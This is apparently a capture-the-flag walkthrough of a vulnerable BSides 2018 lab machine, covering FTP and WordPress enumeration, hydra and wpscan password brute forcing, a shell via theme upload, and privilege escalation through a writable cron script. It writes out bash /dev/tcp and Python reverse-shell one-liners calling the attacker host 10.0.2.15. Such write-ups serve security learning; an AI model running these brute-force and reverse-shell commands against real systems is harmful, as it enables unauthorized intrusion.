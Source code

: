 # init

## initial scan
An initial nmap scan reveals a decent amount of information. 
+ first, there is an ftp service running that allows anonymous access
+ second, a webserver is running and the robots.txt disallows indexing of a _backup\_wordpress_ called directory
The ftp server uses vsftp version 2.3.5, which doesn't seem to be a versin with a critical flaw.

## wordpress
The wordpress instance can be reached via `http://10.0.2.8/backup_wordpress/`. 
Trying _admin:admin_ to access the site reveals that a user with this name exists.

Trying another route: 
The ftp server hosts a file called `users.txt.bk` trying to brute force the ssh access of these users with `hydra -L users.txt.bk -P /usr/share/wordlists/rockyou.txt 10.0.2.8 -t 6 ssh` reveals that password based auth is deactivated.

Time to try to get wp admin access:
`wpscan --url http://10.0.2.8/backup_wordpress -P 10k-most-common.txt -U admin -t 20`
Here, a password list provided by daniel miesslers [security lists](https://github.com/danielmiessler/SecLists) is used. The top 10k credential list is far more manageable than, for example rockyou.
But nonetheless, no hits were achieved for the useraccount admin.

Using the wordpress user scanning script on the page identifies john as an existing user account. A second _wpscan_ is started for user _john_ and the top10k list, which results in a password finding: __enigma__.

## dropping shell
The user account can be utilized to upload and activate a wordpress theme which spawns a shell. 

## enumeration
looking into the _home_ directory not much of use can be found. `ls -Rhavl` is used to quickly gain a glimpse of populated directories.

Taking a look at the running processes, something owned by a user named _whoopsie_ and a running mysql instance come to attention.
```
www-data@bsides2018:/home/john$ netstat -tulpen
netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      115        10013       -
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      0          10073       -
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      0          9049        -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          7809        -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      0          11156       -
tcp6       0      0 :::80                   :::*                    LISTEN      0          9155        -
tcp6       0      0 :::22                   :::*                    LISTEN      0          7811        -
tcp6       0      0 ::1:631                 :::*                    LISTEN      0          11155       -
udp        0      0 127.0.0.1:53            0.0.0.0:*                           0          10072       -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          10007       -
udp        0      0 0.0.0.0:49292           0.0.0.0:*                           107        7907        -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           107        7905        -
udp6       0      0 :::42053                :::*                                107        7908        -
udp6       0      0 :::5353                 :::*                                107        7906        -
```

Netstat shows ports commonly attributed to mysql, cups (631), dns ftp, ssh and web server/ http.

## getting root
While these first results were looking alright, nothing too outstanding was found. For sql, current credentials were no help and the _whoopsie_ process is an ubuntu error and crash handler.

`uname -a` indicated a kernel version succeptible to DirtyCow, but before using kernel exploits the crontabs were investigated. 

The system crontabs under `/etc/crontab` revealed a cleanup script which gets executed every minute.
After adding the following cmd to it `echo '/bin/bash -i > /dev/tcp/10.0.2.15/1234 0<&1 2>&1' >> cleanup`, a reverse root shell is spawned. The single ticks disable bash replacement and evaluation.
Since the installed netcat version lacks the `-e ` option, this cmd or alternatively something like `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` has to be used.

